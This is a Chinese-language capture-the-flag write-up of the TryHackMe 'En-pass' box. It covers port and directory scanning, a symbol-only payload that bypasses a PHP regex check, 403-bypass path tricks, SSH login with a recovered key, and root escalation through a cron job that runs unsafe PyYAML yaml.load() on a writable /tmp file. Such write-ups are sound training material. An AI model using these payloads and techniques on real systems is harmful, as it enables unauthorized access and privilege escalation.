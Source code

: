 ```yaml
---
sidebar_position: 141
tags: [Easy, Linux, 代码审计, Bypass-, 定时任务]
title: "En-pass"
description: "En-pass"
sidebar_label: "En-pass"
slug: /tryhackme/141
---
```


# En-pass

## 端口扫描

```bash
root@ip-10-10-182-177:~/enpass# nmap -sTCV -p 22,8001 --min-rate 1000 10.10.52.141

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-04 11:40 BST
Nmap scan report for ip-10-10-52-141.eu-west-1.compute.internal (10.10.52.141)
Host is up (0.00010s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:bf:6b:1e:93:71:7c:99:04:59:d3:8d:81:04:af:46 (RSA)
|   256 40:fd:0c:fc:0b:a8:f5:2d:b1:2e:34:81:e5:c7:a5:91 (ECDSA)
|_  256 7b:39:97:f0:6c:8a:ba:38:5f:48:7b:cc:da:72:a8:44 (EdDSA)
8001/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: En-Pass
MAC Address: 02:17:CA:F8:27:BB (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```bash
root@ip-10-10-182-177:~/enpass# gobuster dir -u http://10.10.52.141:8001/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.52.141:8001/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/10/04 11:41:24 Starting gobuster
===============================================================
/web (Status: 301)     # 没有权限访问
/index.html (Status: 200)
/reg.php (Status: 200)
/403.php (Status: 403)
/zip (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/04 11:49:03 Finished
===============================================================
```

访问 reg.php 页面我发现其源代码中泄露了后端代码

```php
<?php
if($_SERVER["REQUEST_METHOD"] == "POST"){
   $title = $_POST["title"];
   if (!preg_match('/[a-zA-Z0-9]/i' , $title )){
          $val = explode(",",$title);
          $sum = 0;
          for($i = 0 ; $i < 9; $i++){
                if ( (strlen($val[0]) == 2) and (strlen($val[8]) ==  3 ))  {
                    if ( $val[5] !=$val[8]  and $val[3]!=$val[7] ) 
                        $sum = $sum+ (bool)$val[$i]."<br>"; 
                }
          }
          if ( ($sum) == 9 ){
              echo $result;//do not worry you'll get what you need.
              echo " Congo You Got It !! Nice ";
            }
                    else{
                      echo "  Try Try!!";
                    }
          }
          else{
            echo "  Try Again!! ";
          }    
  }
?>
```

对上述代码询问 GPT 并进行简单分析后创建出了如下 pyload

```bash
!@,#$,%^,&,*,(,),-,+-*
```

当我们输入之后告诉我们一个密码, 我猜测这个密码可能是某个账号或者一些文件的密码

![image-20240709171920123](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171921.png)

因为之前目录扫描的时候对于 web 目录没有权限访问, 所以我深入扫描发现了一个文件, 访问新发现的文件, 我获取到了一个 SSH 

![image-20240709171927356](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171929.png)

> 所以我猜测之前得到的密码其实就是 SSH 私钥的密码, 进行验证

![image-20240709171934184](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171935.png)

现在我们有了 SSH 的私钥但是没有用户名, 此时我将目录放到了 zip 目录下, 其下存在很多压缩文件, 我本来想的是其中应该有一些隐藏文件, 结果里面全部都是一个单词 sadman 只能另寻他法, 看了提示后告诉我们需要绕过 403 这里的 403 只有一个那就是 403.php 文件, 所以我寻找了一些工具来帮助进行操作 [Bypass-403](https://github.com/iamj0ker/bypass-403)

```bash
root@ip-10-10-182-177:~/enpass/bypass-403# ./bypass-403.sh http://10.10.52.141:8001/403.php
 ____                                  _  _    ___ _____ 
| __ ) _   _ _ __   __ _ ___ ___      | || |  / _ \___ / 
|  _ \| | | | '_ \ / _` / __/ __|_____| || |_| | | ||_ \ 
| |_) | |_| | |_) | (_| \__ \__ \_____|__   _| |_| |__) |
|____/ \__, | .__/ \__,_|___/___/        |_|  \___/____/ 
       |___/|_|                                          
                                               By Iam_J0ker
./bypass-403.sh https://example.com path
 
.......
403,1123  --> http://10.10.52.141:8001/403.php/ -H X-Host: 127.0.0.1
200,917  --> http://10.10.52.141:8001/403.php/..;/
000,0  --> http://10.10.52.141:8001/403.php/;/
.....
```

在输出中我们可以发现一个 200 , 访问它发现一个单词估计就是我们的用户

![image-20240709172005967](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-172007.png)

## 后渗透 

### imsau

利用得到的密钥进行登陆

![image-20240709172021644](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-172023.png)

### imsau —> root

在系统中搜寻时, 我发现 opt 下有一个属于 root 的 scripts 文件并且其中存在一个 py 脚本, 因此我猜测有定时任务

```bash
imsau@enpass:/opt/scripts$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Jan 31  2021 .
drwxr-xr-x 3 root root 4096 Jan 31  2021 ..
-r-xr-xr-x 1 root root  250 Jan 31  2021 file.py
imsau@enpass:/opt/scripts$ cat file.py 
#!/usr/bin/python
import yaml

class Execute():
	def __init__(self,file_name ="/tmp/file.yml"):
		self.file_name = file_name
		self.read_file = open(file_name ,"r")

	def run(self):
		return self.read_file.read()

data  = yaml.load(Execute().run())
```

上传 pspy 直接监视发现确实存在 root 进程, 并且其会将 /tmp/file.yml 文件删除

![image-20240709172032020](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-172033.png)

将代码交给 GPT 后, 其告诉我对于 PyYAML < 5.1 的版本 yaml.load() 是存在漏洞的, 接着我查看了本地的版本

![image-20240709172037244](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-172038.png)

因此我开始了谷歌寻找发现一个利用的脚本 [python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)

直接生成利用然后上传到目标端

![image-20240709172046377](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-172048.png)

其实我们只要等待片刻, 只有 tmp 目录下的 file.yml 文件一消失我们就可以判定执行成功

![image-20240709172052402](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-172054.png)